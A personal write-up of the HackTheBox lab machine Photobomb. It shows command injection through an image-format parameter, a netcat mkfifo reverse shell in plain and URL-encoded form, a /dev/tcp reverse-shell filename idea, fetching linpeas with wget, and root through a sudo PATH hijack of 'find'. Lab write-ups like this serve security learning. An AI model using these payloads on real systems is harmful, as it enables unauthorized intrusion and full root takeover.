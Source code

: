 # Photobomb
## Start: 24/10/2022
## End:   27/10/2022
### IP Address: 10.10.11.182

Ok so first things first, nmap scan, -sV for services/versions -sC for any default scripts we can run, Pn to treat the host as online (as we know it is)

```
$> nmap 10.10.11.182 -sV -sC -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 19:53 BST
Nmap scan report for 10.10.11.182
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds

```

Ok standard server with SSH and a webbed site which seems to wanting to point us to photobomb.htb, which i'll add to my hosts file just for ease of use.

I mostly swap to the inbuilt browser in burpsuite whenever i look at websites just so that any action i take i can always send to the repeater function and replay them with modifications.

#### Homepage
![Picture of homepage](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/home.png)
Page is very simple, has a link to a "printer" page with a username and password
Looking at the home page source code it seems some careless admin has just given out some credentials in the photobomb.js file loaded by default.
![Picture of leaked privs](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/leaked_privs.png)
So pH0t0 : b0Mb! ok. the name Jameson given here could be useful too.
#### Printer page
![Picture of admin prompt](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer.png)
Well we have some credentials.. might as well try them
![Picture of successful login](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer_success.png)
So this page looks to ask us to select a picture and a size / filetype to download for printing purposes.
It does this by making a post request along with the form data to the same site at /printer, so lets make one manually, as we can specifiy the file name, my initial thought is can we potentially use this to view other files?

So lets hit that button and inspect the request!
![Picture of repeater](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/repeat.png)
So we send a filename, filetype and size. 
Well lets not send anything! What do we get back? 500 error showing a backtrace of the ruby program which runs the server, including what it looks for. Here it shows it's matching a filename using 
![Picture of 500 error 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_1.png)
```
if photo.match(/\.{2}|\//)
```
Well i dont know regex well enough, but it seems it checks for either a `..` or a `/` symbol to try to block directory inclusions
The filename seems secure enough, it can only find pictures that are there, ignores directories, and causes the whole page to error if the system doesn't find the file.
So lets try another parameter, we can use the same technique to view the regex backtrace for the filetype.
![Picture of 500 error 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_2.png)
```
 if !filetype.match(/^(png|jpg)/)
```
again, im not the best with regex. but this regex allows any character as long as it has png or jpg in it, well lets try and breakout using this parameter, i'll put a semicolon and a sleep command and see what happens
```
photo=.&filetype=png;sleep 20&dimensions=0x0
```
and what do you know, that page took ages to load.. about 20 seconds!
![Picture of loading page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/waiting20.png)
### Command Injection
Well first things first, we seem to have command injection, can we reverse shell at this stage?
There are many different ways to reverse shell, the one that always seems to work for me is below:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $IP $PORT >/tmp/f
```
lets url encode that, setup a netcat listener and see if we get a connection!
![Picture of nc](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/nc-startup.png)
encoded comes out to
```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%35%31%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```
![Picture of exploit 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_page.png)
![Picture of exploit 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_shell.png)
SHELL ACCESS!

## User Access
We are in command of the user "wizard", lets check this home directory out!
![Picture of user home folder](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/user_folder.png)
And here we find the user.txt flag, I'll let you grab that yourself if you're reading this :)
## Root Access
Ok, so we have the user account, the first thing i run to make things easier to find is linpeas!

`wget 10.10.16.51:8000/linpeas.sh && chmod +x linpeas.sh`
I've included the output of linpeas as it's own file within this folder if you want to read over what it found.
I see potentially some CVE vulnerabilities

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```
also, there seems to be a file in /opt/, called cleanup.sh which is run by root 
```
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * sudo /opt/cleanup.sh
```
that file reads as follows:
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```
~~So the script takes a log file, stores it as an old log and truncates the new log, it then finds all .jpg files within the /home/wizard/photobomb folder and execs chown as root on all of them.

now usually if a script is ran as root, while taking input from a user (which in this case would be the file names within the photobomb folder) is very unsecure (good for us :))

first things first i want to take a look at the man page for find, to see how the -exec flag actually works
```
-exec command {} +
              This  variant  of the -exec action runs the specified command on
              the selected files, but the command line is built  by  appending
              each  selected file name at the end; the total number of invoca‐
              tions of the command will  be  much  less  than  the  number  of
              matched  files.   The command line is built in much the same way
              that xargs builds its command lines.  Only one instance of  `{}'
              is  allowed  within the command, and (when find is being invoked
              from a shell) it should be quoted (for example, '{}') to protect
              it  from  interpretation  by shells.  The command is executed in
              the starting directory.  If any invocation with the `+' form re‐
              turns  a non-zero value as exit status, then find returns a non-
              zero exit status.  If find encounters an error, this  can  some‐
              times  cause an immediate exit, so some pending commands may not
              be run at all.  This variant of -exec always returns true.
```
The important thing to note is here is is that the man page suggests to quote the {} whereas in the script it's not quoted! could this mean a crafted filename could be used to make the super user run a reverse shell connection?
A filename that could fit could be "bash -i >& /dev/tcp/10.10.16.51/4242 0>&1;a.jpg"
After some testing it doesn't seem to work out the way i wanted, however whilst looking on gtfobins (a site which shows which binaries can be used to gain root access) i found that the find command could be used to gain sudo if~~
Ok, so i was on the wrong track there, i should really check every part of the linpeas file myself before i move onto attempting exploitation. lesson learned.
The current user (Wizard) can run a specific shell script (/opt/cleanup.sh) AND change environment variables as sudo with no password neccessary:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
so we can run a file which uses a general path to reference the "find" command, so this is vulnerable to a path modification vulnerability
this is when we manually set the $PATH variable to include a script named "find" and when the script runs find it will run our version, with sudo permissions!
```
bash-5.0$ echo bash > /tmp/find
bash-5.0$ chmod +x /tmp/find
bash-5.0$  sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
#  id  
uid=0(root) gid=0(root) groups=0(root)
```
it's just that easy it seems!
and to finish off,:
```
cat /root/root.txt
52*****************************f
```
All done! I need to take my time while re-doing reconnaissance once initial access is gained is what i mainly took away from this. Going forward i'll read through the whole linpeas script and make a shortlist of interesting things to try first.

Thanks for reading.